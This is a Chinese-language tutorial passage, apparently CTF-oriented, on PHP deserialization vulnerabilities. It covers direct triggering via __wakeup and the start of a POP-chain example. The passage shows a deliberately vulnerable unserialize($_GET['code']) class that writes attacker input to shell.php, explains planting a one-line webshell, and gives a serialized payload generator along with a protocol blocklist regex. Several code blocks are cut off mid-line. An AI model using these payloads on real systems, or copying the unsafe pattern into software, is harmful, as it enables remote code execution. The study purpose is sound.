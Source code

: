3. 反序列化漏洞举例
-----------

### 1. 直接调用

`unserialize()`后会直接调用`__wakeup()` ，或者等对象消亡时调用`__destruct()`，因此最理想的情况就是危害代码在`__wakeup() 或__destruct()`中，从而当我们控制序列化字符串时可以去直接触发它们。这里针对 `__wakeup()` 场景举例。

```
test);
        fclose($fp);
        require "shell.php";
    }
}
$c = $_GET['code'];
unserialize($c);
?>

```

这个非常简单，只需要创建一个对象，将其`$test`改成一句话木马，在执行`unserialize`时，就可以执行`__wakeup`函数，将一句话木马写入并加载。`payload`如下，**由于是第一次书写，所以将注释写的很详细，后面将不再赘述。**

```
';
    // 序列化过程只是对对象属性的序列化，一般情况所有方法都可以删除。
}
$c = new chybeta();
print(urlencode(serialize($c))); // 由于可能会出现不可见字符，所以建议要用 url 编码
?> // O%3A7%3A%22chybeta%22%3A1%3A%7Bs%3A4%3A%22test%22%3Bs%3A19%3A%22%3C%3Fphp+phpinfo%28%29%3B+%3F%3E%22%3B%7D

```

### 2. 多级调用（POP 链）

** 说明：** 我也忘了这个哪道题了，我稍微修改的一下，知道的师傅请留言。

```
append($this->var); 
    }
}
 
class Show{
    private $source;
    public $str;
    public function __construct($file='index.php'){
        $this->source = $file;
        echo 'Welcome to '.$this->source."  
";
    }
    public function __toString(){ 
        return $this->str->source;   
    }
 
    public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
            echo "hacker";
            $this->source = "index.php";
        }
    }
}
 
class Test{
    public $p;
    public function __construct(){ 
        $this->p = array(); 
```